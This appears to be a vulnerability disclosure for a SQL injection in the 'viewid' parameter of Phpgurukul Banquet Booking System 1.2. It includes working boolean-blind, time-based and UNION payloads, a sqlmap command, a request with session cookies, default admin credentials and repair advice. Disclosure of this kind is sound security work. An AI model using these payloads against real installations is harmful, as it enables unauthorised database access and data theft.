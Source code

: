 **Phpgurukul Banquet Booking System 1.2 /admin/view-user-queries.php SQL injection**

NAME OF AFFECTED PRODUCT(S)

    Banquet Booking System

Vendor Homepage

    https://phpgurukul.com/online-banquet-booking-system-using-php-and-mysql/

AFFECTED AND/OR FIXED VERSION(S)
submitter

    Emano888

Vulnerable File

    /admin/view-user-queries.php

VERSION(S)

    V1.2

Software Link

    https://phpgurukul.com/?sdm_process_download=1&download_id=15838

PROBLEM TYPE
Vulnerability Type

    SQL injection

Root Cause

    A SQL injection vulnerability was found in the '/admin/view-user-queries.php' file of the 'Banquet Booking System' project. The reason for this issue is that attackers inject malicious code from the parameter 'viewid' and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

Impact

    Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

DESCRIPTION

    During the security review of "Banquet Booking System",I discovered a critical SQL injection vulnerability in the "/admin/view-user-queries.php" file. This vulnerability stems from insufficient user input validation of the 'viewid' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

Vulnerability details and POC
Vulnerability lonameion:

    'viewid' #parameter

Payload:

Parameter: viewid (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: viewid=(SELECT (CASE WHEN (9424=9424) THEN 1 ELSE (SELECT 6862 UNION SELECT 7101) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: viewid=(SELECT 3749 FROM (SELECT(SLEEP(5)))eSdY)

    Type: UNION query
    Title: MySQL UNION query (random number) - 6 columns
    Payload: viewid=-7614 UNION ALL SELECT 2921,2921,CONCAT(0x71626a6271,0x62456e554948666e4d61636444534b6e456f4b46627165757a4f6d5558687a464a4d54775768707a,0x716b767a71),2921,2921,2921#


The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

    python3 sqlmap.py -r SQL.txt -p viewid --dbs

Request:

GET /obbs/admin/view-user-queries.php?viewid=1 HTTP/1.1
Host: localhost
Accept: */*
User-Agent: Mozilla/5.0
Connection: close
Accept-Encoding: gzip, deflate, br
Cookie: user_login=Admin; userpassword=Test%40123; PHPSESSID=kmbojvm7gn1sb0lltn60uv0vam; stylesheet=ayti


Login is required to exploit the vulnerability

Admin Credential
Username: admin
Password: Test@123

![Image](https://github.com/user-attachments/assets/8a7190ca-c0fb-4757-8857-3c2df34a1c1c)


![Image](https://github.com/user-attachments/assets/f55851cd-178e-4c98-b3a9-37657bb01ae9)

Suggested repair

    Use prepared statements and parameter binding:
    Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

    Input validation and filtering:
    Strictly validate and filter user input data to ensure it conforms to the expected format.

    Minimize database user permissions:
    Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

    Regular security audits:
    Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
